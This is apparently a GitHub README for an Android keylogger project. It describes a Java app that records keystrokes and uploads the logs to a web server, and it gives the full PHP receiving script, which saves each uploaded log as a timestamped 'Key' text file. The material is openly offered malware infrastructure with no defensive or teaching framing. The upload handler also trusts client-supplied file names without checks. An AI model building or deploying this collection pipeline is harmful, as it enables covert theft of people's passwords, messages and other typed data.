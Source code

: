 # Android-Keylogger
This is a simple solucion Android's Keylogger, this program is writted in Java and used more componet like a PHP for the creation the log of file in a web server. The web server have been used 000webhost.com but every web server can be used.

this is the php code:

<?php
 if (isset($_FILES["uploaded_file"]["name"])) {
$new_name = "Key".date("his").".txt";
$name = $_FILES["uploaded_file"]["name"];
$tmp_name = $_FILES['uploaded_file']['tmp_name'];
$error = $_FILES['uploaded_file']['error'];

if (!empty($name)) {
    $location = './Key/';

 if ( ! is_dir($location)) {
 mkdir($location);
 }

    if  (move_uploaded_file($tmp_name, $location.$name)){
        rename( $location.$name, $location.$new_name);
        echo 'Uploaded';
    }

} else {
    echo 'please choose a file';
}
}
 ?>
